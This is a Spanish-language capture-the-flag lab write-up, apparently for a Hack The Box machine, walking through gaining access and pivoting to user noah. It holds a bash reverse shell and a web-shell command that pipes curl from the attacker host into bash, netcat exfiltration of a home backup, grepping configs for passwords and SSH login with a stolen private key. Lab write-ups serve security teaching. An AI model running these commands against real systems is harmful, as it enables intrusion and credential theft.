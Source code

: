 ## Vuln exploit & Gaining Access {-}

### Crear una reverse shell desde la s4vishell.php con un index.html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. Desde la s4vishell

    ```php
    http://10.10.10.230/6a5sd4f6a5sd1f6as5dfa6sd51fa.php?cmd=curl 10.10.14.8|bash
    ```

Ya esta

```bash
whoami
#Output

www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Inverstigamos la maquina {-}

```bash
ls -l
cd /home
ls -l
cd noah/
cat user.txt
```

Permission denied. Nos tenemos que passar al usuario Noah

### User Pivoting al usuario noah {-}

#### Analyzamos el systema {-}

```bash
id
sudo -l
cd /
find \-perm -4000 2>/dev/null
cat /etc/crontab
ls -l /var/spool/cron
```

No vemos nada. Tendremos que passar por el systema web

```bash
cd /var
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep "config"
find \-type f 2>/dev/null | grep "config" | xargs grep "password" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v "debconf"
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v -E "debconf|keyboard"
```

Tampoco vemos algo aqui.

```bash
cd /var
find \-type f 2>/dev/null | grep -v -E "lib|cache"
```

Aqui vemos algo que podria ser interressante.

```bash
cd /var/backups
ls -l
```

Vemos un `home.tar.gz` y tenemos derecho de visualizar

#### Nos enviamos el home.tar.gz {-}

1. En la maquina de attackante

    ```bash
    nc -nlvp 443 > home.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc 10.10.14.8 443 < home.tar.gz
    ```

1. Hacemos un md5sum para ver la integridad de la data
1. Analizamos el fichero

    ```bash
    7z l home.tar.gz
    ```

Ya podemos ver que es un comprimido del directorio home del usuario Noah con authorized_key y una id_rsa del proprio usuario

### Conneccion por ssh {-}

```bash
chmod 600 id_rsa
ssh -i id_rsa noah@10.10.10.230
```

Ya estamos a dentro y podemos ver la flag

